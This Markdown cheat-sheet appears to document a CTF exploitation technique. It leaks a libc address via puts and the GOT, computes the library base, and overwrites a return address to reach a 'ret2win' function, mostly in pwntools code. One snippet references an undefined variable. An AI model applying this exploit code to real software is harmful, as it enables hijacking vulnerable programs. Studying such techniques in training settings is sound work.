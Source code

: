 # Leak an Address

Use `printf` or `puts` to print out a function address from libc.  
Can then calculate the offset of that function from the base.  
Calculate the offset of a desired function and add that to the libc base,  
you can then call that function directly.  

`readelf -s <libc_path>` will show function offsets.  

## Address Leak to Call a Non-Imported Function

*Setup: a desired function is in a shared library but is not called in the binary.*  
*The binary calls a different function from the shared library*  

Use `readelf` to determine the target functions offset from the library base:  

```bash
readelf -s libpivot32.so
```

Then find the offsets for the target function and the foothold function.  

Use pwntools to load some known addresses:  

```python3
from pwn import *
elf = ELF(".vuln")

foothold_plt = p32(elf.plt.foothold_function)   # Function from the shared library
foothold_got = p32(elf.got.foothold_function)   # Function from the shared library
puts_plt = p32(elf.plt.puts)                    # function we can use to cause a leak
main_ptr = p32(elf.symbols.main)                # needed to rerun the program and maintain address values

foothold_offset = 0x77d
ret2win_offset = 0x974
```

Leak the address:  

```python3
addr_leak = flat([
    foothold_plt,   # Populate the Global Offset Table with addresses. The imported function from the shared library is used.
    puts_plt,       # Use puts to output the address of foothold_function in the Global Offset Table
    main_ptr,       # Run main again so that we can provide a new payload to call the target function
    foothold_got    # Argument for puts, the address to leak
])
io.sendline(addr_leak)
```

Receive the output of `puts` and carve out the address:  

```python3
io.recvuntil(b"whatever\n")   # bytes preceeding the leak
leaked_addresses = io.recv()    # receive data until the next input. Likely to contain more than 1 address -> the first is the one we want
foothold_leak = unpack(leaked_addresses[:4])    # read the first 4 bytes (32bit address. [:8] for 64bit addresses

# 64 bit variation
leak = address[:6]
leak += b"\x00\x00"
print(f"Leaked address: {hex(unpack(leak))}")
```

Calculate the offset to the desired function by first calculating the shared libraries base,  
then adding the offset to the desired function:  

```python3
lib_base = foothold_leak - foothold_offset    # subtracting the offset to foothold_function (found by readelf) from the leaked foothold_function address in the GOT
ret2win_addr = lib_base + ret2win_offset      # adding the libraries base address and the offset to the target function, resulting in the actual address
```

The target functions address can now be placed on the stack, where a return address is overwritten:  

```python3
win = flat([
    b"A" * offset,
    ret2win_addr
])
io.sendline(win)
```
